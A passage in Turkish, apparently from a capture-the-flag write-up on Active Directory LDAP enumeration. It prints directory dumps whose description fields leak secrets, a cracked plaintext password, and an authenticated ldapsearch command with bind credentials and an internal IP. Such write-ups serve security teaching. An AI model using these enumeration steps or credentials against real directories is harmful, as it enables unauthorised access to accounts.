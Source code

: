 dn:: CN=Backup Admin,OU=Kullanıcılar,DC=SKYDAYS,DC=SC
cn:: Backup Admin
description: Tüm yetkiyi f.erdem'e verin ve şifre için bcrypt kullanın sonra bu hesabı kapatın (b.avci)
memberOf: CN=Audit Team Admins,OU=Gruplar,DC=SKYDAYS,DC=SC

dn:: CN=Osman Bahadır Avcı,OU=Kullanıcılar,DC=SKYDAYS,DC=SC
cn:: Osman Bahadır Avcı
description: PirMC3B3oARoTretI16N2tlmnB0kcB0PVn3zNPAolchStS
memberOf: CN=Privileged Support,OU=Gruplar,DC=SKYDAYS,DC=SC
memberOf: CN=Account Operators,CN=Builtin,DC=SKYDAYS,DC=SC

dn:: CN=Test User,OU=Kullanıcılar,DC=SKYDAYS,DC=SC=
cn: Test User
description: b.avci tarafında yetki test etmek için oluşturulmuştur
memberOf: CN=Audit Team,OU=Gruplar,DC=SKYDAYS,DC=SC

dn:: CN=Test Admin,OU=Kullanıcılar,DC=SKYDAYS,DC=SC
cn: Test Admin
description: Herhangi Bir Sorun Olması Durumunda Hesabı Aktif Edin ve Şifresini bcrypt ile Şifreleyin
memberOf: CN=Privileged Support (Backup),OU=Gruplar,DC=SKYDAYS,DC=SC

dn:: CN=LDAP,OU=Kullanıcılar,DC=SKYDAYS,DC=SC
cn: LDAP

dn: CN=Kamil Bulent,CN=Users,DC=SKYDAYS,DC=SC
cn: Kamil Bulent
description: Alo kime diyorum

# refldap://ForestDnsZones.SKYDAYS.SC/DC=ForestDnsZones,DC=SKYDAYS,DC=SC

# refldap://DomainDnsZones.SKYDAYS.SC/DC=DomainDnsZones,DC=SKYDAYS,DC=SC

# refldap://SKYDAYS.SC/CN=Configuration,DC=SKYDAYS,DC=SC
```
Bu açıklamalarda f.erdem kullanıcısın şifresi yazıyor ancak şifre blake2 ile hashlenmiş olduğunu görüyoruz hashi kırdığımızda şifresinin ```Passion@War5994``` olduğunu buluyoruz ancak bu şifre ile kullanıcya bağlanmaya çalıştığımızda hesabın AD içerisinde **Disable** olduğunu öğreniyoruz ve herhangi bir işimize yaramıyor.

Nested (İç içe geçmiş) gruplarların hangi grup altında bulunduğunu ve açıklamalarını görmek için kullanılan komut.
```
ldapsearch -x -LLL \
-D "u.ldap@SKYDAYS.SC" \
-w 'AllahiniS3v3nHTBgel!n' \
-H ldap://172.31.210.72 \
-b "DC=SKYDAYS,DC=SC" \
"(objectClass=group)" \
cn memberOf description
```
Aynı şekilde aşağıda decode edilen çıktı.*(Burada da AD yapısı içerinsde built-in gelen)*
```
dn: CN=IT,OU=Gruplar,DC=SKYDAYS,DC=SC
cn: IT
description: $2a$12$ Admin Key
